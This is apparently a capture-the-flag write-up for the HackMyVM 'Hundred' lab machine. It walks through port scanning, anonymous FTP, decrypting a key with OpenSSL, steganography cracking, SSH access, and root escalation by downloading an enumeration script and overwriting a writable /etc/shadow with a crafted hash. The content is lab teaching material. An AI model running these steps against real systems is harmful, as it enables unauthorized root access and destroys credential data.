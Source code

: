 ```yaml
---
title: "Hundred - HackMyVM"
summary: "Difficulty: Easy 🟢"
---
```


<style>

h6 {
  text-align: center;
  font-style: italic;
  font-weight: normal;
  position: relative;
  top: -10px;
}

img {
    display: flex !important;
    margin: 0 auto !important;
    justify-content: center !important;
    border-radius: 14px;
    border: 2px solid #4a90e2;
    box-shadow: 0 2px 6px rgba(0, 0, 0, 0.1);
    transition: box-shadow 0.3s ease, transform 0.3s ease;
}
img:hover {
    box-shadow: 0 6px 12px rgba(0, 0, 0, 0.15);
    transform: scale(1.03);
}

</style>

[Machine Link](https://hackmyvm.eu/machines/machine.php?vm=Hundred)


When starting the machine, we see the **IP** of the victim machine.

![01](/images/writeups/hundred/1.png)

I decided to use **NMAP** to scan for **open ports** and obtain information about the **services** and other details associated with them.

```bash
sudo nmap -sS -p- --min-rate 4500 -n -Pn 192.168.18.181
```

![02](/images/writeups/hundred/2.png)

```bash
nmap -sCV -p21,22,80 -n -Pn 192.168.18.181 -oN target
```

![03](/images/writeups/hundred/3.png)

We observed that **port 21** (**FTP**) is vulnerable to **anonymous login**, so I decided to log in because the scan indicated there were files of interest

![04](/images/writeups/hundred/4.png)

Now that we are inside, I decide to download the file ***users.txt*** using the **get** command.

```bash
get users.txth
```

And on my local machine, I check to see what's there, and it appears to be a **dictionary**. But at the bottom, we can notice a username (**hmv**).

![05](/images/writeups/hundred/5.png)

After downloading the **id_rsa** file, we discover that it’s actually a drawing of a rabbit.

![06](/images/writeups/hundred/6.png)
<h6>Rabbit Hole reference</h6>

And we observe that ***id_rsa.pem*** seems to be a private **id_rsa** key.

![07](/images/writeups/hundred/7.png)

I grant privileges to the **private key** and try to access, but it doesn't work.

![08](/images/writeups/hundred/8.png)

It seemed that the rabbit drawing was a hint that the **id_rsa** file was just a **rabbit hole**.

I decide to go through **port 80** (**HTTP**).

![09](/images/writeups/hundred/9.png)
<h6>Homepage</h6>

![10](/images/writeups/hundred/10.png)
<h6>Source code of the homepage</h6>

We can observe a value named '**key**' that contains some strange text. I notice that it's an '**.enc**' file. We can decode the file using the **RSA private key** and **OpenSSL**. 

We use the **private key** file and the downloaded file, and it generates a **directory**:

```bash
openssl pkeyutl -decrypt -inkey id_rsa.pem -in h4ckb1tu5.enc -out key
```

```bash
cat key
```

![11](/images/writeups/hundred/11.png)

![12](/images/writeups/hundred/12.png)


As it says it's there, I decide to use Gobuster to search and see if there are any subdirectories or files within this directory.

![13](/images/writeups/hundred/13.png)
<h6>Directory and file enumeration with Gobuster</h6>

And we come across another **id_rsa**. So, I download it.

```bash
wget http://192.168.18.181/softyhackb4el7dshelldredd/id_rsa
```

![14](/images/writeups/hundred/14.png)

![15](/images/writeups/hundred/15.png)

As we can see, it appears to be a **private key**. Let's see if it works:

![16](/images/writeups/hundred/16.png)

Unfortunately, it is asking for a **password**.

For the next step, we will need to download the image from the webpage and use **steganography techniques** to extract information from the image.

```bash
wget http://192.168.18.181/logo.jpg
```

I decide to use [**Stegseek**](https://github.com/RickdeJager/stegseek) with the **dictionary** we obtained earlier from **port 21** (**FTP**).

```bash
stegseek logo.jpg users.txt
```

![17](/images/writeups/hundred/17.png)

![18](/images/writeups/hundred/18.png)

We obtain the **password** required by the **private key**, which allow us to access and log in as the user **hmv**.

![19](/images/writeups/hundred/19.png)

And we can obtain the user flag 🚩.

## Privilege escalation to root

There are only two users: hmv and root.

![20](/images/writeups/hundred/20.png)


After experimenting for a while and using tools like [**pspy**](https://github.com/DominicBreuker/pspy) and [**LinPeas**](https://github.com/peass-ng/PEASS-ng/tree/master) without success, I decided to run the [**lse.sh**](https://github.com/diego-treitos/linux-smart-enumeration) script, which is designed to gather relevant information about local **Linux system security** to assist with **privilege escalation**.

```bash
wget "https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh" -O lse.sh;chmod 700 lse.sh
```

```bash
./lse.sh -l1
```

This last command is used to display information in more detail.

As a result, we see that the ***/etc/shadow*** file **can be edited**.

![21](/images/writeups/hundred/21.png)
<h6>Critical file can be edited: /etc/shadow</h6>

To change the **root password** in the ***/etc/shadow*** file, we will use the following commands:

```bash
openssl passwd
```

This is used to generate the **password in hash format**.

Since I can't edit the ***/etc/shadow*** file directly with a text editor like **nano**, we have to overwrite the entire file. Therefore, our only option is to run the following command:

```bash
echo root:e84V4zPcic2M2:18844:0:99999:7::: > /etc/shadow
```

> 🚨 IMPORTANT: This command is very dangerous because it completely overwrites the ***/etc/shadow*** file, **deleting all existing user password hashes and settings** except the line we add. This can lock out all other users and cause serious system access problems.

![22](/images/writeups/hundred/22.png)
<h6>We are root now</h6>

We log in as the **root** user using our **password**. Once we have **root** access, we retrieve the **root flag** and successfully finish hacking the machine.